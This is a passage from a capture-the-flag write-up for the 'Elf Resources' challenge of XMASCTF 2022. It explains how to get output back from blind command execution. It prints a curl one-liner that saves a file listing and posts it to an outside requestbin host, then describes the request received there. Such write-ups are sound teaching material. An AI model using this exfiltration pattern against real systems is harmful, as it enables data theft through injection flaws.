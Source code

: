 Nice! Since we only have blind execution, we need to get a little creative in order to do things like read files. Luckily, we can send files as POST requests using curl so we can do something like this:

```bash
ls > /tmp/uwu; curl -F flag=@/tmp/uwu https://eo5ms17xjgmwn5k.m.pipedream.net
```

Changing our script to use this command, we generate a new Base64 payload. And then sending this payload, we get a POST request back at our requestbin:

![](/assets/img/writeups/XMASCTF2022/Elf%20Resources%20Writeup.010.png)

The long s3 link is how requestbin stores these files. Navigating to the link we can download the `uwu` file which looks like so:

![](/assets/img/writeups/XMASCTF2022/Elf%20Resources%20Writeup.011.png)
